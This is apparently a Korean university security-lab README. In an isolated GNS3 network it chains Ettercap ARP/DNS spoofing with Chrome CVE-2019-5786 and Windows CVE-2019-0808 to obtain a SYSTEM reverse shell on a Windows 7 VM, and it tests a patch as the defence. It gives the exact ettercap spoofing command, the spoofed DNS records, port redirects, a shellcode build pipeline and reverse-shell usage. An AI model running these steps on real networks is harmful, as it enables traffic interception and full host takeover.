

# GNS3 DNS 스푸핑–Chrome/Windows 취약점 체인 실습

> 최초 조사일: 2026-10-29
>
> PoC 최종 정리일: 2026-11-17
>
> 범위: 소유하거나 명시적으로 허가받은 격리 VM 실습 환경

## 프로젝트 목표

이 프로젝트는 다음 한 가지 사례만 다룬다.

- 브라우저 취약점: **Chrome CVE-2019-5786**
- OS 권한 상승 취약점: **Windows CVE-2019-0808**
- 피해 환경: **Windows 7 SP1 32-bit + Chrome 72.0.3626.119 32-bit**
- 전달 방식: 같은 내부망에서 ARP 기반 중간자 위치를 확보한 뒤 DNS 응답 변조
- 최종 관찰 목표: 피해 VM에서 공격자 VM으로 시작되는 SYSTEM 권한의 역방향 세션



DNS 스푸핑은 공격 페이지로 유도하는 전달 단계다. 브라우저 코드 실행, Windows 권한 상승, 역방향 연결은 각각 별도 단계이며 모두 성공해야 SYSTEM 세션으로 이어진다.

## 선택한 취약점

### CVE-2019-5786

- Chrome Blink의 객체 수명 처리 취약점이다.
- 조작된 HTML 페이지를 통해 브라우저 렌더러 코드 실행으로 이어질 수 있다.
- Chrome **72.0.3626.121**에서 수정됐다.
- 실습에서는 수정 전 버전인 **72.0.3626.119 32-bit**를 사용한다.

### CVE-2019-0808

- Windows Win32k의 메모리 객체 처리 과정에서 발생하는 로컬 권한 상승 취약점이다.
- Windows 7 SP1 32-bit와 x64가 공식 영향 대상이다.
- Google은 CVE-2019-5786과 CVE-2019-0808이 실제 공격에서 결합됐고 Windows 7 32-bit가 표적이었다고 공개했다.

원 공격자의 코드는 공개되지 않았지만 동일 환경을 대상으로 한 독립 공개 재현 체인은 존재한다. 다만 정확한 OS 빌드와 패치 상태에 민감하고 BSOD와 확률적 실패가 보고돼 있으므로, 버전만 맞춘다고 성공이 보장되지는 않는다.

## 확정 피해 환경

| 항목 | 사양 |
| --- | --- |
| OS | Windows 7 SP1 32-bit, NT 6.1 build 7601 |
| Chrome | 72.0.3626.119 32-bit |
| 실제 취약 VM에서 확인된 OS 기준 | KB4486563 적용, KB4489878/KB4489885 미적용 |
| 제외할 CVE-2019-0808 수정 | 2019-03 KB4489878 월간 롤업 또는 KB4489885 보안 전용 업데이트 |
| 실습 도메인 | 사용자 진입 `portal.lab.test`, 분리 origin `exp.portal.lab.test` |
| 웹 프로토콜 | HTTP |

`winver`의 build 7601만으로 패치 상태를 구분할 수 없다. 설치된 KB 목록, Chrome 전체 버전과 x86 아키텍처, 설치 파일의 공급자 서명과 해시를 함께 기록한다.

## 피해자 스냅샷

| 이름 | Windows 상태 | Chrome 상태 | 용도 |
| --- | --- | --- | --- |
| `VULN-BOTH-POCUSER-CLEAN` | 관찰된 KB4486563 기준, KB4489878/KB4489885 미적용 | 72.0.3626.119 x86 | 표준 사용자 공격 조건 |
| `PATCH-OS` | KB4489878 월간 롤업 또는 KB4489885 보안 전용 업데이트 적용 | 72.0.3626.119 x86 | 권한 상승 방어 대조군 |

KB4489878은 이미 CVE-2019-0808 수정이 포함된 2019년 3월 월간 롤업이다.
이전의 “KB4489878까지가 취약하고 4월부터 패치”라는 경계는 사용하지 않는다.
두 스냅샷은 같은 원본 VM을 복제해 CPU, RAM, NIC와 나머지 설정을 동일하게 유지한다.
공격 스냅샷은 `pocuser` 생성과 네트워크 설정을 마치고 Chrome을 닫은 뒤 VM을
완전히 종료한 상태에서 만든다.

## GNS3 환경

### 노드와 자원

| 노드 | OS | IP | vCPU | RAM | 디스크 |
| --- | --- | --- | ---: | ---: | ---: |
| 피해자 | Windows 7 SP1 x86 | `10.10.10.30/24` | 2 | 2 GB | 30 GB |
| 공격자 | Kali Linux 2024.4 x64 | `10.10.10.20/24` | 2 | 4 GB | 25 GB |
| DNS 서버 | Ubuntu Server 22.04.5 LTS x64 | `10.10.10.53/24` | 1 | 1 GB | 8 GB |
| 웹 서버 | Ubuntu Server 22.04.5 LTS x64 | `10.10.10.80/24` | 1 | 1 GB | 10 GB |

```text
                     [SW-LAB: 10.10.10.0/24]
                    /          |          |          \
[피해자 Windows 7]      [공격자 Kali]   [DNS 서버]   [정상 웹 서버]
   10.10.10.30          10.10.10.20   10.10.10.53    10.10.10.80
```

- GNS3 Ethernet switch 하나만 사용한다.
- 라우터, NAT, Cloud, 외부 기본 게이트웨이는 사용하지 않는다.
- 네 VM은 NIC 하나만 사용하며 호스트 브리지와 공유 폴더를 연결하지 않는다.
- 피해자의 DNS 서버는 `10.10.10.53`으로 고정한다.
- DNS 서버의 정상 응답은 `portal.lab.test → 10.10.10.80`이다.
- 공격 단계에서 피해자가 받은 응답만 `10.10.10.20`으로 바뀐다.
- 역방향 연결은 피해자 `10.10.10.30`에서 공격자 `10.10.10.20`으로 시작한다.

스위치 환경에서 공격자는 기본적으로 피해자와 DNS 서버 사이의 유니캐스트 패킷을 볼 수 없다. 실험에서는 같은 LAN에서 두 장비 사이의 ARP 매핑을 공격자 MAC으로 바꿔 중간자 위치를 확보하고, 정상 통신을 유지하면서 DNS 응답만 변조한다.

## 실험 순서

1. **격리 확인**: NAT, Cloud, 외부 경로가 없고 네 VM의 초기 스냅샷이 존재하는지 확인한다.
2. **정상 기준선**: DNS 서버가 `portal.lab.test`에 웹 서버 `10.10.10.80`을 반환하고 정상 페이지가 열리는지 기록한다.
3. **중간자 확인**: 피해자와 DNS 서버 사이의 ARP 경로가 공격자를 거치는지 PCAP으로 확인한다.
4. **DNS 변조 확인**: DNS 서버가 보낸 원본 응답과 피해자가 받은 `10.10.10.20` 응답을 같은 질의 ID로 비교한다.
5. **공격 페이지 확인**: 피해 브라우저 요청이 공격자 웹 로그에 기록되는지 확인한다.
6. **취약점 체인 확인**: Chrome 렌더러 단계와 Windows 권한 상승 단계의 결과를 각각 기록한다.
7. **역방향 세션 확인**: 피해자가 공격자로 먼저 연결한 TCP 흐름과 세션 신원을 기록한다.
8. **권한 확인**: 세션 신원이 `NT AUTHORITY\SYSTEM`인지 확인하고 계산기 프로세스 소유자와 화면 표시를 검증한다.
9. **복구**: 세션 종료 후 초기 스냅샷으로 되돌린다.

PoC 공격 페이지는 인가된 보안 실습임을 화면에 명확히 표시하고 정상 포털을
복제하거나 `10.10.10.80`으로 자동 리다이렉트하지 않는다. 브라우저 단계의
`SUCCESS` 신호만으로 SYSTEM 성공을 단정하지 않고, 역방향 연결과 세션 신원을
최종 판정에 사용한다. 성공 뒤 역방향 셸을 유지하려면 해당 탭을 닫지 않는다.

## 성공 판정 증거

| 단계 | 증거 |
| --- | --- |
| DNS 스푸핑 | DNS 서버 링크의 원본 `10.10.10.80`과 피해자 링크의 변조된 `10.10.10.20` 응답 PCAP |
| 웹 유도 | DNS 응답 직후 피해 브라우저가 공격자에게 보낸 HTTP 요청 로그 |
| 브라우저 단계 | Chrome 프로세스에서 시작된 취약 동작 기록 |
| 권한 상승 | 일반 사용자에서 `NT AUTHORITY\SYSTEM`으로 바뀐 프로세스 신원 |
| 역방향 연결 | 피해자에서 공격자로 먼저 시작된 연결의 5-tuple과 시각 |
| SYSTEM 세션 | 공격자 콘솔의 입력·출력, 계산기 화면과 `GetOwner` 결과 |

버전이 일치한다는 사실만으로 취약점 성공을 주장하지 않는다. Chrome 프로세스에서 시작해 SYSTEM으로 전환된 시점과 역방향 연결이 모두 관찰돼야 종단 간 성공으로 판정한다.

## 방어 대안: CVE-2019-0808 패치

방어 대안은 Windows 보안 업데이트로 CVE-2019-0808 권한 상승을 차단하는 것이다.

| 실행 | 피해자 스냅샷 | 예상 결과 |
| --- | --- | --- |
| 방어 전 | `VULN-BOTH` | 브라우저 단계 뒤 SYSTEM 권한 상승 가능 |
| 방어 후 | `PATCH-OS` | DNS 변조와 브라우저 접속이 발생해도 CVE-2019-0808을 통한 SYSTEM 전환 차단 |

`PATCH-OS`에는 기존 업데이트 방식에 맞춰 2019-03 월간 롤업 KB4489878 또는
보안 전용 업데이트 KB4489885 중 하나를 적용한다. 실제 이미지 구축 시 MSRC의
Windows 7 SP1 x86 제품별 표에서 CVE-2019-0808 수정 포함 여부를 다시 확인한다.

방어 성공 기준은 다음과 같다.

- DNS 응답 변조와 공격 페이지 접속은 방어 전후 모두 동일하게 관찰된다.
- `PATCH-OS`에서는 SYSTEM 권한으로 전환되지 않는다.
- SYSTEM 역방향 세션과 SYSTEM 소유 계산기 프로세스가 나타나지 않는다.
- 패치 적용 전후의 설치 KB 목록, PCAP, 브라우저 로그와 프로세스 신원을 같은 실행 ID로 보존한다.

## 제출 산출물

- GNS3 토폴로지와 IP 표
- Windows 빌드, 설치 KB, Chrome 버전과 아키텍처
- DNS 변조 전후 PCAP
- HTTP 접근 로그
- 브라우저 프로세스와 SYSTEM 전환 기록
- 역방향 연결의 5-tuple과 시각
- 방어 전후 비교 결과
- VM 스냅샷 식별자와 설치 파일 해시

## 안전 범위

실습은 소유하거나 담당 교수가 명시적으로 허가한 GNS3 환경에서만 수행한다.

## 참고 자료

- CVE-2019-5786: <https://www.cve.org/CVERecord?id=CVE-2019-5786>
- Chrome Stable Channel Update: <https://chromereleases.googleblog.com/2019/03/stable-channel-update-for-desktop.html>
- Google Security Blog, 실제 결합 공격 공개: <https://security.googleblog.com/2019/03/disclosing-vulnerabilities-to-protect.html>
- CVE-2019-0808: <https://www.cve.org/CVERecord?id=CVE-2019-0808>
- Microsoft MSRC CVE-2019-0808: <https://msrc.microsoft.com/update-guide/vulnerability/CVE-2019-0808>
- Microsoft Update Catalog KB4489878: <https://www.catalog.update.microsoft.com/Search.aspx?q=KB4489878>
- Microsoft Update Catalog KB4489885: <https://www.catalog.update.microsoft.com/Search.aspx?q=KB4489885>
- 공개 CVE 체인: <https://github.com/exodusintel/CVE-2019-0808>
- sRDI: <https://github.com/monoxgas/sRDI>
- Ettercap 명령과 target 문법: <https://github.com/Ettercap/ettercap/blob/master/man/ettercap.8.in>
- Ettercap `dns_spoof`: <https://github.com/Ettercap/ettercap/blob/master/man/ettercap_plugins.8.in>

## GNS3 네트워크 설정

### 토폴로지와 주소 계획

실습 네트워크는 GNS3 Ethernet switch 하나로 구성하며, 각 VM의 NIC 하나만 스위치에 연결한다. 이 내부망에는 라우터, NAT, Cloud, 외부 기본 게이트웨이를 연결하지 않는다.

| VM | 주소 | 게이트웨이 | DNS |
| --- | --- | --- | --- |
| 피해자 Windows 7 | `10.10.10.30/24` | 없음 | `10.10.10.53` |
| 공격자 Kali Linux | `10.10.10.20/24` | 없음 | `10.10.10.53` |
| DNS Ubuntu Server | `10.10.10.53/24` | 없음 | `127.0.0.1` |
| 웹 Ubuntu Server | `10.10.10.80/24` | 없음 | `10.10.10.53` |

게이트웨이가 없으므로 이 실습망의 VM은 외부 인터넷에 접근하지 못한다. OS 업데이트와 패키지 설치는 격리망에 연결하기 전에 완료하고, 설치 후에는 NAT/Cloud 연결을 제거한다.

### 인터페이스 이름 확인

설정 전에 각 Linux VM에서 실제 NIC 이름을 확인한다. 아래 예시의 `ens3` 또는 `eth0`를 그대로 가정하지 말고, 출력된 인터페이스 이름을 설정에 사용한다.

```bash
ip -br link
ip -br address
```

Ubuntu Server의 네트워크는 Netplan으로 설정한다. 먼저 기존 파일과 설정을 확인한다.

```bash
ls /etc/netplan/
sudo netplan get
```

### DNS 서버 Ubuntu 설정

기존 Netplan 파일을 편집하고 `<인터페이스명>`을 앞에서 확인한 NIC 이름으로 바꾼다. 기존 파일의 다른 설정이 필요하다면 보존한다.

```bash
sudo nano /etc/netplan/00-installer-config.yaml
```

예시:

```yaml
network:
  version: 2
  ethernets:
    <인터페이스명>:
      dhcp4: false
      addresses:
        - 10.10.10.53/24
      nameservers:
        addresses:
          - 127.0.0.1
```

실제 파일명이 다르면 존재하는 파일을 수정한다. YAML 들여쓰기를 유지하고 적용한다.

```bash
sudo netplan generate
sudo netplan try
```

설정이 맞으면 확인 프롬프트에서 승인한다. DNS 서비스가 로컬 주소에서 질의를 받도록 설정되어 있어야 `127.0.0.1`을 DNS 서버 자신을 가리키는 주소로 사용할 수 있다.

### 웹 서버 Ubuntu 설정

기존 Netplan 파일에서 `<인터페이스명>`을 실제 NIC 이름으로 바꾸고 주소를 설정한다.

```bash
sudo nano /etc/netplan/00-installer-config.yaml
```

예시:

```yaml
network:
  version: 2
  ethernets:
    <인터페이스명>:
      dhcp4: false
      addresses:
        - 10.10.10.80/24
      nameservers:
        addresses:
          - 10.10.10.53
```

```bash
sudo netplan generate
sudo netplan try
```

설정이 맞으면 확인 프롬프트에서 승인한다.

### Kali Linux 설정

Kali에서 먼저 인터페이스와 NetworkManager 연결 이름을 확인한다.

```bash
ip -br link
nmcli connection show
```

Kali의 데스크톱 환경에서는 네트워크 연결 편집기에서 IPv4 Method를 `Manual`로 설정하고 주소 `10.10.10.20`, 넷마스크 `255.255.255.0`, 게이트웨이는 비움, DNS `10.10.10.53`을 입력한다. 연결 이름과 NIC 이름은 설치 환경에 따라 다를 수 있으므로 확인 후 선택한다. `/etc/resolv.conf`를 직접 편집하거나 IP forwarding을 켤 필요는 없다.

### 피해자 Windows 7 설정

관리자 권한 CMD에서 먼저 네트워크 인터페이스의 실제 이름을 확인한다.

```cmd
netsh interface show interface
```

출력된 인터페이스 이름을 아래 `<인터페이스명>`에 넣는다. 이름에 공백이 있으면 따옴표를 유지한다.

```cmd
netsh interface ipv4 set address name="<인터페이스명>" source=static address=10.10.10.30 mask=255.255.255.0 gateway=none
netsh interface ipv4 set dnsservers name="<인터페이스명>" source=static address=10.10.10.53 validate=no
```

또는 네트워크 어댑터의 IPv4 속성에서 위 주소와 서브넷 마스크를 지정하고, 기본 게이트웨이는 비워 둔다.

### 연결 및 DNS 확인

각 Linux VM에서 주소와 경로를 확인한다.

```bash
ip -br address
ip route
```

Windows에서는 다음 명령을 사용한다.

```cmd
ipconfig /all
```

내부 통신을 확인한다. 대상 OS의 방화벽이 ICMP를 차단할 수 있으므로 ping 실패만으로 연결 불량을 단정하지 말고, 링크 상태와 서비스 연결도 함께 확인한다.

```bash
ping -c 3 10.10.10.80
ping -c 3 10.10.10.53
```

DNS 서버에는 README에서 정한 실습 이름 `portal.lab.test`의 정상 레코드가 `10.10.10.80`으로 설정되어 있어야 한다. Kali 또는 DNS 서버에서 확인한다.

```bash
dig @10.10.10.53 portal.lab.test
```

정상 응답의 A 레코드가 `10.10.10.80`인지 확인한다. `webpage.com` 같은 외부 도메인은 이 격리된 실습 DNS 영역에 설정하지 않았다면 이 테스트에 사용할 수 없다.

## PoC 환경과 파일 배치

### 피해자 계정과 최종 스냅샷

공격은 관리자 계정이 아니라 표준 사용자 `pocuser`로 로그인한 상태에서 시작한다.
관리자 CMD에서 다음을 기록한다.

```cmd
whoami
net localgroup Administrators
whoami /groups | findstr /I "S-1-5-32-544"
wmic qfe get HotFixID,InstalledOn,Description
```

`pocuser`가 `Administrators` 목록에 없어야 하며 SID 검색 결과도 없어야 한다.
최종 공격 스냅샷은 2 vCPU, 2 GB RAM, 고정 IP, Chrome과 `pocuser` 구성을
마친 뒤 Chrome을 닫고 VM을 완전히 종료한 상태의
`VULN-BOTH-POCUSER-CLEAN`으로 한다. Chrome을 관리자 권한으로 실행하지 않는다.

### 최종 격리 상태

Kali에서 다음을 확인한다.

```bash
ip -br -4 addr
ip route
dig +norecurse +short @10.10.10.53 portal.lab.test
```

Kali 주소는 `10.10.10.20/24`, 경로는
`10.10.10.0/24 dev eth0 ... src 10.10.10.20`만 있어야 한다. `default via`가
있으면 공격을 시작하지 않는다. 정상 DNS 기준선은 `10.10.10.80`이다.

### 최종 `poc.zip` 배치

최종 `poc.zip`은 다음만 포함한다.

```text
README.md
build.sh                     빌드, Ettercap 설정과 영구 포트 리다이렉트 자동화
compat/, payload/            빌드 호환 헤더와 reverse-shell 소스
host1_wrapper/               사용자 표시 wrapper
host2_single_run/            고정 exploit.js와 WASM runtime
scripts/, tests/             빌드·서버·reverse-shell 스크립트와 테스트
offline-poc-deps/            pinned upstream 및 sRDI worktree/.git 압축
llvm-mingw-20260616-msvcrt-ubuntu-22.04-x86_64.tar.xz
PACKAGE.sha256
```

이전 identity 빌드의 `build/`, 생성된 `shellcode.js`, `__pycache__`, 메모리 덤프와
이전 버전 ZIP은 포함하지 않는다. portable llvm-mingw는 Linux 실행 권한이 보존되는
원본 `.tar.xz` 상태로 포함하고 Kali에서 `build.sh`가 압축을 푼다.

## PoC 빌드: `poc.zip`부터 처음 시작

아래 블록은 `/home/kali/Desktop/poc.zip`만 새로 복사된 상태에서 시작한다.
기존 빌드와 섞이지 않도록 `/home/kali/poc`을 새 작업 루트로 사용하며,
그 경로가 이미 있으면 중단한다.

```bash
export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
rehash 2>/dev/null || true

archive=/home/kali/Desktop/poc.zip
work_root=/home/kali/poc

test -f "$archive" \
  || { echo 'STOP: /home/kali/Desktop/poc.zip missing'; exit 1; }
test ! -e "$work_root" \
  || { echo 'STOP: /home/kali/poc already exists'; exit 1; }

mkdir -p "$work_root"
unzip -q "$archive" -d "$work_root"
bash "$work_root/build.sh"
```

`build.sh`는 다음을 순서대로 수행한다.

1. `PACKAGE.sha256` 검증
2. 포함된 llvm-mingw `.tar.xz`를 `poc/toolchains/`에 압축 해제
3. upstream과 sRDI worktree 및 `.git` 복원
4. 두 저장소의 고정 커밋 확인
5. reverse-shell DLL, `shellcode.bin`, `shellcode.js` 빌드
6. `MANIFEST.sha256` 작성 및 검증
7. reverse-shell 전용 단위 테스트 14개 실행
8. `/etc/ettercap/etter.dns` 백업과 두 실습 DNS 레코드 설정
9. `poc-port80-redirect.service` 등록 및 TCP 80 → 8000 규칙 즉시 적용

패키지와 runtime manifest가 전부 `OK`이고 마지막에 `Ran 14 tests`, `OK`,
`BUILD COMPLETE`가 나와야 공격 수행 단계로 진행한다. upstream 코드의 포인터
형식 관련 compiler warning은 기존 공개 소스 경고이므로, 종료 코드 0과 위 검증
결과로 빌드 성공을 판정한다.

## PoC 공격 수행

### 1. HTTP 서버와 포트 80 리다이렉트

Kali 터미널 1에서 실행한다.

```bash
cd /home/kali/poc
python3 -u scripts/lab_http_server.py --log http-access.log
```

다른 터미널에서 서버와 두 Host 라우팅을 확인한다.

```bash
ss -lntp | grep ':8000'
curl -fsS -o /dev/null -w 'portal=%{http_code}\n' \
  -H 'Host: portal.lab.test' http://10.10.10.20:8000/
curl -fsS -o /dev/null -w 'exploit=%{http_code}\n' \
  -H 'Host: exp.portal.lab.test' http://10.10.10.20:8000/exploit.html
```

둘 다 `200`이어야 한다. `build.sh`가 브라우저에서 `:8000`을 생략할 수 있도록
영구 systemd 서비스를 등록한다. 서비스와 규칙을 확인한다.

```bash
systemctl is-enabled poc-port80-redirect.service
systemctl is-active poc-port80-redirect.service
sudo iptables -t nat -L PREROUTING -n -v --line-numbers
```

`enabled`, `active`와 다음 규칙이 보여야 하며 Kali를 재부팅해도 다시 적용된다.

```text
REDIRECT tcp -- eth0 * 0.0.0.0/0 10.10.10.20 tcp dpt:80 redir ports 8000
```

### 2. SYSTEM 역방향 셸 검증기

피해자에서 URL을 열기 직전에 터미널 2에서 실행한다.

```bash
cd /home/kali/poc
python3 -u scripts/reverse_shell.py
```

정상 대기 출력은 다음과 같다.

```text
listening on 10.10.10.20:4444 for 10.10.10.30
```

### 3. Ettercap DNS 스푸핑

`build.sh`가 정상 Ettercap 파일을 `/etc/ettercap/etter.dns.pre-poc`으로 한 번
백업하고 두 실습 레코드를 `/etc/ettercap/etter.dns`에 설정한다. 다음 명령으로
설정과 플러그인을 확인한다.

```bash
sudo test -f /etc/ettercap/etter.dns.pre-poc
sudo grep -E \
  '^(portal\.lab\.test|exp\.portal\.lab\.test)[[:space:]]+A' \
  /etc/ettercap/etter.dns
sudo ettercap -P list | grep dns_spoof
ip -br -4 addr show eth0
```

기대 레코드는 다음과 같다.

```text
portal.lab.test A 10.10.10.20 60
exp.portal.lab.test A 10.10.10.20 60
```

터미널 3에서 피해자 `.30`과 DNS 서버 `.53`만 대상으로 실행한다.

```bash
sudo ettercap -T -q -i eth0 \
  -M arp -P dns_spoof \
  /10.10.10.30// /10.10.10.53//
```

두 대상은 같은 L2 실습망에 있으므로 `arp:remote`가 아니라 `arp`를 사용한다.
이 구성에서는 Ettercap이 필요한 패킷을 전달하므로 별도로
`net.ipv4.ip_forward=1`을 설정하지 않는다.

피해자 Windows 7 CMD에서 실제 수신 답을 확인한다.

```cmd
ipconfig /flushdns
nslookup portal.lab.test 10.10.10.53
nslookup exp.portal.lab.test 10.10.10.53
```

공격 중에는 두 이름 모두 `10.10.10.20`을 반환해야 한다. ARP MAC이 같다는
사실만으로 DNS 스푸핑 성공을 판정하지 않는다. 필요하면 Kali에서 다음처럼
질의를 기록한다.

```bash
sudo tcpdump -ni eth0 'host 10.10.10.30 and port 53'
```

### 4. 피해자에서 트리거

1. `VULN-BOTH-POCUSER-CLEAN` 스냅샷을 복원한다.
2. `pocuser`로 로그인하고 `whoami`가 `window7\pocuser`인지 확인한다.
3. Chrome 72.0.3626.119 32-bit에서 다음 주소를 한 번만 연다.

```text
http://portal.lab.test/
```

PoC는 “Authorized security lab simulation” 화면을 유지하며 정상 포털을
복제하거나 자동 리다이렉트하지 않는다. 페이지가 일시적으로 응답 없음이 되어도
VM이 동작하면 반복 새로고침하지 말고 기다린다. 브라우저 메시지는 최종 성공
증거가 아니며, 검증기에 다음 출력이 순서대로 나타나야 한다.

```text
stage=connected
stage=cmd_started
stage=child_ready
verified_reverse_shell=NT AUTHORITY\SYSTEM
interactive=ready; type Windows commands, or type exit to close
```

역방향 셸을 쓰는 동안 Chrome 탭과 브라우저를 닫지 않는다. PoC는 지속성이나
재연결 기능이 없으므로 탭 또는 Chrome 프로세스가 끝나면 셸도 종료된다.

### 5. SYSTEM과 계산기 켜기/끄기

Kali 검증기의 `interactive=ready` 상태에서 입력한다.

```cmd
whoami
hostname
start "" C:\Windows\System32\calc.exe
wmic process where "name='calc.exe'" get ProcessId,SessionId,ExecutablePath
wmic process where "name='calc.exe'" call getowner
```

기대 결과는 다음과 같다.

- `whoami` → `nt authority\system`
- `hostname` → `Window7`
- 피해자 데스크톱에 계산기 창 표시
- `GetOwner` → `Domain = "NT AUTHORITY"`, `User = "SYSTEM"`,
  `ReturnValue = 0`

PoC의 `cmd.exe`는 `WinSta0\Default` 데스크톱에서 시작하므로 PsExec 없이 계산기
창이 보여야 한다. 모든 계산기를 종료하고 확인한다.

```cmd
taskkill /F /IM calc.exe
tasklist | findstr /I calc.exe
```

특정 프로세스만 종료할 때는 `taskkill /F /PID 3276`처럼 실제 PID를 넣는다.

### 6. 종료와 원복

역방향 셸에서 `exit`를 입력하고 Ettercap 및 HTTP 서버를 `Ctrl+C`로 종료한다.
포트 리다이렉트 서비스는 다음 부팅에도 사용할 수 있도록 그대로 둔다. 일시적으로
끄려면 다음을 실행한다.

```bash
sudo systemctl stop poc-port80-redirect.service
```

다시 켤 때는 `sudo systemctl start poc-port80-redirect.service`를 사용한다. 영구
설정을 완전히 제거할 때만 다음을 실행한다.

```bash
sudo systemctl disable --now poc-port80-redirect.service
sudo rm /etc/systemd/system/poc-port80-redirect.service
sudo systemctl daemon-reload
```

`etter.dns`의 두 레코드는 파일에 남아 있어도 Ettercap이 종료된 동안에는 DNS
응답을 변조하지 않는다. PoC 설정 자체를 완전히 제거할 때만 다음을 실행한다.

```bash
sudo cp -a /etc/ettercap/etter.dns.pre-poc /etc/ettercap/etter.dns
```

Windows에서 정상 DNS가 복구됐는지 확인한다.

```cmd
ipconfig /flushdns
nslookup portal.lab.test 10.10.10.53
```

다시 `10.10.10.80`을 반환해야 한다. 증거를 보존한 뒤 피해자를 종료하고
`VULN-BOTH-POCUSER-CLEAN` 스냅샷으로 복원한다.

## PoC 최종 수행 결과

2026-11-17 시험에서 표준 사용자 `pocuser`로 시작해 다음 결과를 확인했다.

```text
source=10.10.10.30:49170
stage=connected
stage=cmd_started
stage=child_ready
verified_reverse_shell=NT AUTHORITY\SYSTEM
interactive=ready

whoami   -> nt authority\system
hostname -> Window7
calc.exe GetOwner -> NT AUTHORITY\SYSTEM, ReturnValue=0
```

- 피해자에서 Kali `10.10.10.20:4444`로 시작된 연결이 유지됐다.
- SYSTEM 신원 자동 검증 후 대화형 명령 입출력이 동작했다.
- 계산기 창이 피해자 화면에 표시됐고 SYSTEM 소유가 확인됐다.
- `taskkill /F /IM calc.exe`로 계산기를 종료할 수 있었다.
- 정상 포털 표시와 자동 리다이렉트를 제거한 PoC 실습 화면이 유지됐다.
- 탭을 닫으면 셸이 종료되는 비지속성 동작도 설계와 일치했다.

이는 한 번의 종단 간 성공을 증명하지만 반복 성공률을 보장하지 않는다. 이전
시험에서는 브라우저 멈춤, CPU 99%, 빈 콜백과 BSOD가 관찰됐다. 매번 같은
스냅샷에서 시작하고 한 번 성공하면 해시, 로그와 출력을 저장한 뒤 종료한다.

## PoC 증거 보존 목록

- GNS3 토폴로지와 각 VM의 IP
- 피해자의 `winver`, Chrome 버전, `wmic qfe` 출력
- `pocuser`와 Administrators 그룹 확인 결과
- 정상 및 spoofed `nslookup` 출력과 DNS PCAP
- `http-access.log`
- `MANIFEST.sha256`와 단위 테스트 출력
- 역방향 연결 시각, source IP/port와 stage 출력
- `whoami`, `hostname`, 계산기 `SessionId`와 `GetOwner` 출력
- 방어 전후 결과 및 사용한 스냅샷 이름
